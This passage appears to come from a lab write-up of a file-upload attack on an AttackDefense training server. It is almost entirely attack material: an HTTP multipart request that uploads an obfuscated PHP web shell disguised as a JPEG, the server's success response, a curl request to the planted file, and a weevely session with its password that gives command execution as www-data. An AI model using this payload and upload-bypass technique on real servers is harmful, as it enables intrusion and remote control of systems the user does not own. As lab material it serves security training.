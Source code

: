 ```http
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------36226146085396895671660538828
Content-Disposition: form-data; name="fileToUpload"; filename="weevely_shell.jpg"📌
Content-Type: image/jpeg📌

<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:01:31 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4069



<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl -X GET https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php`

`weevely https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/weevely_shell.jpg/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
www-data@attackdefense.com:/var/www/html/uploads $
```
